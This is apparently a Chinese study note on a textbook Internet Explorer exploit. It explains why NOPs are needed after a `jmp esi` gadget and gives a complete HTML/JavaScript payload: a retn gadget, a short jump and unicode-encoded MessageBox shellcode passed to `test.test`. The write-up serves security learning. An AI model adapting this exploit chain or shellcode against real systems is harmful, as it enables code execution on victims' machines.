 这里有一个疑问：为什么在`jmp esi`和`messagebox`之间要加四个nop呢？作者提醒我们注意esp的位置。那么不要这四个nop行不行呢？我测试了下，会导致IE崩溃。

由于`mov eax, edx; retn 8`最后的`retn 8`，在`jmp esi`执行后，esp指向了messagebox中的第二个四字处。但是在`jmp esi`后还会用到esp吗？

会的。我们回到第三章制作的通用弹窗shellcode，看它开头的汇编指令：


```assembly
"\xfc"                      CLD ; clear flag DF
    ; store hash
"\x68\x6a\x0a\x38\x1e"      push 0x1e380a6a ; MessageBoxA
"\x68\x63\x89\xd1\x4f"      push 0x4fd18963 ; ExitProcess
```

很明显，第二条指令就是一个push，然而在push的时候esp指向messagebox中的第二个四字处，所以这个push会影响它后面的那个push指令，导致其被破坏。

因此，我们需要加入nop。

这是一个比较简单的exploit，就不画流程图了。

另外，作者提到不修正eax也是可行的，我们可以在`jmp esi`前放一个短跳，把它自身带来的干扰指令跳过去即可。把原来用来修改eax的地方直接放一个retn即可。为了不引入新的垃圾指令，且retn的选择范围较大，所以经过反汇编测试，我选了`0x10044a58`处的。修改以后shellcode如下：

```html
<script>  
    var s = "\u9090";
    while (s.length < 54) {
        s += "\u9090";
    }
    // retn
    s += "\u584a\u1004"
    // short jmp (jmp +0x8)
    s += "\u08eb\u9090"
    // jmp esi
    s += "\uE78A\u1012"
    // nop
    s += "\u9090\u9090";
    // messagebox
    s += "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91";
    s += "\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332";
    s += "\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c";
    s += "\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505";
    s += "\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b";
    s += "\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06";
    s += "\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c";
    s += "\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd";
    s += "\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33";
    s += "\u6853\u6a2d\u626f\u6768\u6f6f\u8b64\u53c4\u5050";
    s += "\uff53\ufc57\uff53\uf857";
    test.test(s);  
</script>  
```

通过调试可以发现，完美跳过了`jmp esi`引入的垃圾指令：

![Bildschirmfoto 2018-10-15 um 11.35.17 AM.png]({{ site.url }}/images/0day/D1DD5636B3B64FC012B6811BF14FD15A.png)
